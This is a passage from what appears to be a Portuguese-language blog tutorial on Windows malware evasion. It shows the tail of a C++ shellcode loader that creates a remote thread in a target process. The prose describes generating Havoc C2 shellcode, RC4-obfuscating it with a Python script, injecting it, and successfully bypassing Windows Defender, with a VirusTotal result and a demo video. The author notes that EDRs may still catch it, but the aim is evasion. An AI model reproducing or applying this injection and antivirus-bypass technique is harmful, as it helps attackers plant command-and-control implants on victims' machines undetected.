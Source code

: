 ```cpp
    }

    std::wcout << L"[+] Pressione Enter para criar Thread remota." << std::endl;
	std::cin.get();

    threadRemota = CriarThreadRemota(processoAlvo, NULL, (SIZE_T)0, (LPTHREAD_START_ROUTINE)enderecoRemoto, NULL, 0, NULL);
    if (threadRemota == NULL)
        return 0;

    std::wcout << L"[+] Thread remota criada com sucesso!" << std::endl;

    CloseHandle(threadRemota);
    CloseHandle(processoAlvo);

    return 0;
}
```
## Resaltando pontos importantes

Não estamos evitando a análise estática do código muito bem. Deveríamos melhorar isso, mas acho que vou mostrar como evitar melhor a análise estática do código em outro post focado apenas nesse tópico.
Mesmo assim, esse código, em um contexto de bypass **Windows Defender**, vai funcionar, mas observe que essa técnica não escapará de soluções de defesa mais sofisticadas, como **EDRs** ou alguns **AVs**.
## VirusTotal 

![Resultado](https://i.imgur.com/ExN5zf3.png)

## Testando nosso código<br>
Bom, após gerar a nossa shellcode do `havoc`, vamos ofuscar ela com o nosso código em Python. Depois, basta colocar no nosso código a shellcode ofuscada e a chave RC4 gerada:<br>
<iframe width="760" height="515" src="https://www.youtube.com/embed/lxxMhHpS_As" frameborder="0" allowfullscreen></iframe>

Como podem observar no vídeo, tenho uma exclusão no meu disco local D, mas isso não vai impedir do **Windows Defender** poder detectar nosso "Malware". Notem também que mostro ao longo do vídeo que nossa payload é descriptografada e escrita na memória do processo alvo com sucesso. Também ao longo do vídeo, mostro que, após criar nossa thread remota, a ofuscação de sono começa a fazer efeito, mas mostro que tem sim como detectar a shellcode implantada, aguardando o término do sono e analisando no exato momento em que ele "reinicia" o sono. e obviamente, no final, conseguimos contornar o **Windows Defender** com sucesso.